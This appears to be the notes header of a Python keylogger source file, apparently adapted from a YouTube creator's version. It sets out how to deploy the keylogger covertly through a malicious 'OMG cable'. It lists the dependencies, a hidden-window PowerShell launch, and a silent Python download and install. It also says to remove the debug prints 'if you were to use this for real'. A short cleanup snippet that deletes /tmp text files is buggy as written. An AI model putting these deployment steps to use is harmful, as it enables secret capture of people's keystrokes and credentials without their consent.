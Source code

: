 # ----Random Notes----

#### install via cable

#pip install pynput

#pip install pywin32

#pip install requests

#pip install easygui

#run powershell >  pythonw "C:\Path\Path\Path\OMG CABLE STUFF\python keylogger test.py"

#powershell -WindowStyle Hidden

# --------------Install python via powershell---------------
#[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

#wget "https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe" -outfile "python-3.8.0.exe"

#.\python-3.8.0.exe /quiet InstallAllUsers=0 PrependPath=1 Include_test=0

# python keylogging program

##You will need to comment out the prints and exception prints on code if you were to use this for real, as its testing

##i have prints on here that will tell you and let you know what part of the program is going at the time and that it is

##working

#Youtube channel of original creator - https://bit.ly/2U58Lt9

#modified by me

# TO-DO list
# -----------------------------------------------------------------
Remove all .txt files will add incase internet connection breaks and errors start
import os
import glob

files = glob.glob('/tmp/*.txt')

for f in files:
    try:
        f.unlink()
    except OSError as e:
        print("Error: %s : %s" % (f, e.strerror))
#Insert into else on error
# -----------------------------------------------------------------

Optimize better

# -----------------------------------------------------------------
